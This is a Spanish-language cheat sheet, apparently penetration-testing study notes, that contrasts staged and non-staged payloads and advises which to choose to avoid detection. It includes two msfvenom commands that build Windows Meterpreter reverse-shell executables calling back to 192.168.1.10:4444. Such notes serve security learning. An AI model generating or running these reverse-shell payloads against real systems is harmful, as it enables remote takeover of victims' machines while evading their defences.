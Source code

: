 ```yaml
---

### 🎯 **Staged vs Non-Staged Payloads Cheat Sheet** 🎯

---
```

----
#### 📝 **¿Qué es un Payload Staged?**  
Un **payload staged** es un tipo de carga útil que se divide en **dos o más etapas**.  
- 🥇 **Primera Etapa:** Se envía un pequeño código inicial para establecer una conexión segura con el atacante.  
- 🥈 **Segunda Etapa:** Una vez que la conexión está establecida, se envía la carga útil completa.  

---

#### 🚀 **Ventajas de Payload Staged:**  
- ✅ **Menor detección:** La primera etapa suele ser pequeña, lo que facilita eludir sistemas de detección.  
- ✅ **Flexibilidad:** Permite cambiar la carga útil final según la situación.  
- ✅ **Ejecución remota:** La segunda etapa se recibe solo después de la conexión, lo que aumenta la persistencia.  

---

#### ❌ **Desventajas de Payload Staged:**  
- 🚩 **Dependencia de conexión:** Si la conexión falla, el ataque queda incompleto.  
- 🚩 **Complejidad:** Requiere más pasos y puede ser menos fiable en entornos de red restrictivos.  

---

### 📝 **¿Qué es un Payload Non-Staged?**  
Un **payload non-staged** se envía como una **única entidad** en un solo paquete.  
- 📦 **Carga Completa:** Todo el código malicioso se envía de una vez y se ejecuta inmediatamente.  

---

#### 🚀 **Ventajas de Payload Non-Staged:**  
- ✅ **Simplicidad:** El ataque es directo y rápido.  
- ✅ **Fiabilidad:** No depende de establecer una conexión adicional.  

---

#### ❌ **Desventajas de Payload Non-Staged:**  
- 🚩 **Mayor detección:** Todo el código malicioso se envía de una sola vez, lo que aumenta la probabilidad de ser detectado.  
- 🚩 **Menor flexibilidad:** No se puede modificar el payload después de enviarlo.  

---

### 💡 **Ejemplos de uso en Metasploit:**

#### 📂 **Payload Staged:**  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```
- **Staged Payload:** `windows/meterpreter/reverse_tcp`  
- El payload inicial establece la conexión y luego carga la segunda etapa.  

---

#### 🗃️ **Payload Non-Staged:**  
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```
- **Non-Staged Payload:** `windows/meterpreter_reverse_tcp`  
- El payload completo se envía y ejecuta directamente.  

---

### 💡 **¿Cuál usar?**  
- 🔒 **Ambientes con alta seguridad:** Prefiere *Staged* para evitar detecciones tempranas.  
- ⚡ **Ataques rápidos o entornos inseguros:** Usa *Non-Staged* para asegurar la ejecución sin conexiones adicionales.  

---

💾 **Guarda esta referencia en Obsidian para tener siempre a mano las diferencias entre Staged y Non-Staged Payloads!** 🚀